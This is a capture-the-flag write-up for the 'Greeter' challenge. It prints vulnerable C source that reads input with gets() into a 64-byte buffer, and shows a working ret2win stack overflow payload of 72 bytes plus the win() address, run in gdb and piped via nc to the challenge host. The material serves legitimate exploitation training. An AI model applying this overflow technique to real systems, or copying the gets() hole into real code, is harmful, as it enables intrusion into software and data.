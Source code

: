 # Greeter

## Task

File: greeter, greeter.c

## Solution

```c  
#include <stdio.h>  
#include <stdlib.h>

void win() {  
	puts("congrats! here's your flag:");  
	char flagbuf[64];  
	FILE* f = fopen("./flag.txt", "r");  
	if (f == NULL) {  
		puts("flag file not found!");  
		exit(1);  
	}  
	fgets(flagbuf, 64, f);  
	fputs(flagbuf, stdout);  
	fclose(f);  
}

int main() {  
	/* disable stream buffering */  
	setvbuf(stdin,  NULL, _IONBF, 0);  
	setvbuf(stdout, NULL, _IONBF, 0);  
	setvbuf(stderr, NULL, _IONBF, 0);

	char name[64];

	puts("What's your name?");  
	gets(name);  
	printf("Why hello there %s!\n", name);

	return 0;  
}  
```

We have a buffer of 64 bytes. So we need to overwrite 64 + 8 (the rbp) to
reach the rsp, then we can add the address of the win function to call it.

The actual offset (8) can be determined by using a pattern long enough to
definitely reach it. You will get a SIGSEGV with the chars that overflowed the
rsp and can then find the offset.

The address of the win function can be found using `info functions win`. There
are lots of easy to find and understand resources about basic buffer
overflows.

```  
gdb-peda$ checksec  
CANARY    : disabled  
FORTIFY   : disabled  
NX        : ENABLED  
PIE       : disabled  
RELRO     : FULL  
gdb-peda$ r < <(python2 -c 'from pwn import p64;print("A"*72 +
p64(0x401220))')  
Starting program: greeter < <(python2 -c 'from pwn import p64;print("A"*72 +
p64(0x401220))')  
What's your name?  
Why hello there
AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA @!  
congrats! here's your flag:  
flag file not found!  
```

```bash  
$ python2 -c 'from pwn import p64;print("A"*72 + p64(0x401220))' | nc challenges.ctfd.io 30249  
What's your name?  
Why hello there
AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA @!  
congrats! here's your flag:  
nactf{n4v4r_us3_g3ts_5vlrDKJufaUOd8Ur}  
```  

Original writeup (https://github.com/klassiker/ctf-
writeups/blob/master/2020/newark-academy/binary-exploitation/greeter.md).